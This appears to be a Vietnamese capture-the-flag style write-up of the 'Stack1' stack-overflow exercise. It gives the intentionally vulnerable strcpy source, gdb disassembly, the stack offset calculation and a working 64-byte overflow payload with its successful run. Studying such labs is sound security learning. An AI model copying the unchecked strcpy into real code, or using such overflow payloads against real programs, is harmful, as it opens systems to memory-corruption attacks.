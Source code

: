 ## Stack1
- Source code C:
```c 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
- Goal là ta phải ghi đè được biến `modified` thành `0x61626364`
- Chạy gdb và `disass main`:
```asm
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave  
0x080484d6 <main+114>:  ret    
```
- Bài này giống goal bài trước, chỉ khác là lần này dùng `strcpy` để copy `argv[1]` vào biến `buffer`. `strcpy` cũng là một hàm không an toàn, không kiểm tra khả năng lưu trữ của biến đích, vậy ở đây ta chỉ cần tìm vị trí của `buffer` và `modified` trên stack.
- Nhìn vào đoạn asm:
```asm
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
```
- Đoạn này ứng với lệnh `strcpy(buffer, argv[1]);`
- Trong đó thì đây là đoạn reference đến `argv[1]` và đưa vào stack làm tham số thứ 2 của `strcpy`:
```asm 
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
```
- Vậy `eax,[esp+0x1c]` là đang lấy biến `buffer` để đưa vào đỉnh của stack làm tham số thứ 1. Vậy xác định `esp+0x1c` là ô nhớ của biến `buffer`
- Tiếp theo là tìm biến modified, ngay trên đoạn asm của `strcpy` có một lệnh gán `mov DWORD PTR [esp+0x5c],0x0`, nó sẽ ứng với `modified = 0;`. Vậy `esp+0x5c` là ô nhớ của biến `modified` trên stack
- Tìm offset của 2 ô này, break địa chỉ `0x080484be`, tìm offset của 2 biến:
```
(gdb) p $esp+0x5c
$8 = (void *) 0xbffffbdc
(gdb) p $esp+0x1c
$9 = (void *) 0xbffffb9c
(gdb) p 0xbffffbdc - 0xbffffb9c
$10 = 64
(gdb) p/x 0xbffffbdc - 0xbffffb9c
$11 = 0x40
```
- Vậy 2 ô nhớ cách nhau 64 bytes, nhưng điều kiện là biến `modified` phải có giá trị `0x61626364`, ta sẽ tạo 64 chữ A và thêm 4 bytes `64 63 62 61`:
```
❯ python                                                                                                                                                                                                   ─╯
Python 3.10.6 (main, Nov 14 2022, 16:10:14) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> "A"*64 + "\x64\x63\x62\x61"
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba'
>>> 
```
- 4 bytes cuối phải viết ngược do cơ chế little endian
```
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
$ 
```
